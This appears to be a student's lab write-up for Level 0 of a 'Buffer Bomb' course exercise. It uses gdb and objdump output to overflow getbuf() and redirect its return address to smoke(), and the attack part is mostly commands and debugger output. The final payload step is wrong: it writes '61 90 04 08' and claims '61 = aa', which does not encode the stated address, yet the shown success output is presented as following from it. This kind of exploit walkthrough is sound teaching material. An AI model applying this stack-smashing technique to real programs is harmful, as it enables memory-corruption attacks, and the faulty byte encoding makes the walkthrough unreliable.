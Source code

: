 Buffer Bomb
===========
5 phases where you exploit the getbuf() function in C and manipulate the outcome of the bufbomb executable file.

<h1>Level 0</h1>

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```Smoke()```

   To find the address of function ```Smoke()``` type:
   ```unix> objdump -d bufbomb | less```

   My address for ```Smoke()``` = 080490aa <smoke>:

   <b>WRITE DOWN the address for ```Smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu
(gdb) break *getbuf+17
(gdb) disas
(gdb) info registers
```

Gives you:

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) info registers
eax            0x45789ae        72845742
ecx            0x45789ae        72845742
edx            0x3c1048 3936328
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c0a        0x8048c0a <getbuf+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

<b>WRITE DOWN %ebp address as you will be using it later. In my case:</b>

%ebp = 0x55683350 

getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

Now quit out
```
(gdb) q
A debugging session is active.

        Inferior 1 [process 29088] will be killed.

Quit anyway? (y or n) y
```

Now create a test input file called "hex" and type a few commands
```
unix> perl -e 'print "A"x32 '> hex
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex
(gdb) x/20x $esp
(gdb) disas
```

Gives you:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
```

Next type these commands:
```
(gdb) continue
(gdb) disas # notice that we are now at <+17>
(gdb) x/20x $esp
```

Gives you:
```
(gdb) continue
Continuing.

Breakpoint 2, 0x08048c15 in getbuf ()
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
   0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
=> 0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
```

We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

startingAddressOfBufVariable = 0x55683328
%ebp = 0x55683350 # I told you to write this down earlier

buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
            = 0x55683350   +4 - 0x55683328
            # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
            = 2C # in hexadecimal = 44 bytes # in decimal

We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

Now quit out of gdb with ```q``` command and type:


3. create the buffer overflow string 

```
bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
bash-4.1$ ls
bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
bash-4.1$ less hex2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

Now use hex2 as your new input in gdb:
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex2
(gdb) x/20x $esp
(gdb) continue
(gdb) x/20x $esp 
```

On the second call of ```(gdb) x/20x $esp``` you will see:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
(gdb)
```

Understand that our input file is:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
where A = 41, B = 42, C = 43, & D = 44

So DDDD = 0x44444444

After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```Smoke()```!!!!!

4. force the function getbuf to return to fucntion ```Smoke()``` instead of returning the value 1.

Find where you wrote down the address of ```Smoke()``` earlier. Mine is = 080490aa

Because my machine is little endian the least significant byte is first.

So 
```08 04 90 aa``` => ```aa 90 04 08```

Now exit out of gdb:
```
bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
```
WHERE 61 = aa

Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

Type:
```./hex2raw < hex3 > raw```

5. Almost there!!!!!!!!!!

Now actually give your "raw" file as input to the Buffer Bomb:
```./bufbomb -u quinnliu < raw```

And you should get the following output:
```
Userid: quinnliu
Cookie: 0x2d8cc70c
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```